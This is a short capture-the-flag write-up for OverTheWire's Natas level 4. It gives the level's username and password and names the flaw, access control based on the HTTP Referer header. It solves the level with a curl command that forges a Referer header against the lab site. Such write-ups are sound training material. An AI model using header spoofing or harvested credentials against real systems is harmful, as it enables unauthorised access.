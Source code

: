 # Username
natas4 

# Password
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

# Web Vulnerbility
HTTP Referer header used as security

# Method of Solve
Use Curl to access by suppling HTTP header referer
```
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ\  -H "Referer: http://natas5.natas.labs.overthewire.org/" \ http://natas4.natas.labs.overthewire.org/
```
